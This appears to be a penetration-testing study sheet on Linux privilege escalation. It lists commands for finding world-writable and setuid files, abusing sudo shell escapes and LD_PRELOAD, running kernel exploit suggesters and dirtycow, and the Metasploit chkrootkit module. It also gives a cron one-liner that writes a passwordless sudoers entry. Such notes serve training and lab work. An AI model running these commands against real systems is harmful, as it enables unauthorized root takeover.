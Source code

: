 # Weak Permissions

- find / -not -type l -perm -o+w (world-writable files)
- use openssl to generate encrypted linux passwords (can be substituted in shadow file)
	- openssl passwd -<1/2/3/4/5/6> -salt abc <cleartext password>
	- -1 means weakest algorithm, -6 means strongest

# Sudo Misconfig

- sudo -l : programs that current user can run as root
- eg. man > sudo man cat > type !/bin/bash > opens shell as root
  ![privesc](./images/linprivesc-01.png)
  ![privesc](./images/linprivesc-02.png)
  ￼
- if LD_PRELOAD env in "sudo -l" output, 
  ![privesc](./images/linprivesc-03.png)
  ![privesc](./images/linprivesc-04.png)
  ![privesc](./images/linprivesc-05.png)
  ![privesc](./images/linprivesc-06.png)
      ￼

# Kernel Exploit

- https://github.com/mzet-/linux-exploit-suggester
- upload les.sh to target using meterpreter and run the file
- eg. dirtycow exploit creates a new user with escalated perms with a password

# Cron jobs

- look for a script file (.sh) which normal user van edit and can run as root.
- printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
- this will create a script which will allow student user to run sudo without password

# Exploiting setuid programs

- setuid bit looks like:
  ![privesc](./images/linprivesc-07.png)
  
- find files:  find / -user root -perm -4000 -exec ls -ldb {} \;
- another way to find file: find / -perm -u=s -type f 2>/dev/null
- this means this binary along with all child processes run with root privs
- investigate binary with - strings ./welcome
- since this binary is calling greetings binary, we delete the ./greetings binary
- and replace with /bin/bash binary
- this will run /bin/bash as root
- run the welcome binary, it should give root shell

# Rootkit scanner

- check for any scripts running that are running chkrootkit as root in "ps aux"
- chkrootkit v0.49 is vulnerable to privesc - exploit/unix/local/chkrootkit
- set CHKROOTKIT /bin/chkrootkit 
  ![privesc](./images/linprivesc-08.png)
  ![privesc](./images/linprivesc-09.png)
	  
	  ￼